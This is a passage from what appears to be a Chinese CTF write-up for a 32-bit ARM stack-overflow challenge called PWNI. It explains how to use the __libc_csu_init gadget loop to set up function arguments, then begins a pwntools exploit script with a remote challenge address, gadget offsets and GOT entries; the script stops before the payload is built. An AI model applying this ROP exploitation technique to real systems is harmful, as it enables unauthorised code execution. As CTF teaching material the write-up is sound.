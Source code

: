 ```
```

### <a class="reference-link" name="PWNI"></a>PWNI

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

32位 Arm的栈溢出，做法仍然是利用 csu来布置参数和执行函数。

#### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

```
.text:00010540                 CMP             R9, R5
.text:00010544                 POPEQ           `{`R4-R10,PC`}`
.text:00010548                 LDR             R3, [R4],#4
.text:0001054C                 MOV             R2, R8
.text:00010550                 MOV             R1, R7
.text:00010554                 MOV             R0, R6
.text:00010558                 BLX             R3
.text:0001055C                 ADD             R9, R9, #1
.text:00010560                 B               loc_10540
```

32位下的csu如上所示，参数布置基本变化不大，不过这里是一个循环，我们不需要再自己调整返回值。

此外，我们必须保证 R5为1，这样才不会跳出该循环。

#### <a class="reference-link" name="EXP"></a>EXP

```
# encoding=utf-8
from pwn import *

file_path = "bin"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    #p = process(['./qemu-riscv64', '-L', "libs", '-g','1234',file_path])
    p = process(["qemu-arm", "-L", "./libc-2.31.so",  file_path])
    #p = remote('121.36.192.114',9999)
    e =ELF(file_path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    one_gadget = 0x0

else:
    p = remote('139.159.210.220', 9999)
    libc = ELF('./libc-2.31.so')
    one_gadget = 0x0

def Pwn():
    #p = remote('139.159.210.220', 9999)
    # p = remote("127.0.0.1", 10004)

    p.recvuntil('input: ')
    pop_r3_ret = 0x10348
    pop_s = 0x10540 #popeq `{`r4, r5, r6, r7, r8, sb, sl, pc`}`; ldr r3, [r4], #4; mov r2, r8; mov r1, r7; mov r0, r6; blx r3;
    pop_r4_ret = 0x10498
    printf_got = 0x2100c
    read_got = 0x21010
    setvbuf = 0x2101c

```